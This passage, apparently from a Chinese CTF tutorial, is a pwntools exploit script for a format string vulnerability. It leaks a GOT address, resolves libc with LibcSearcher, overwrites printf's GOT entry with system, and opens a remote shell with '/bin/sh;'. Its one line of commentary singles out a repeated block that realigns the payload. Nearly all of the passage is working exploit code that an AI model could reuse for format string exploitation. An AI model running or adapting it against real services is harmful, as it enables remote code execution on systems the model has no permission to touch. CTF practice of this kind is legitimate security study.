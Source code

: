 ```python
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
## let the read get resolved
sh.sendline('a')
sh.recv()
## get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
sh.recv()
read_addr = u64(data)

## get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()

## get shell
sh.sendline('/bin/sh;')
sh.interactive()
```

這裏需要注意的是這一段代碼

```python
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()
```
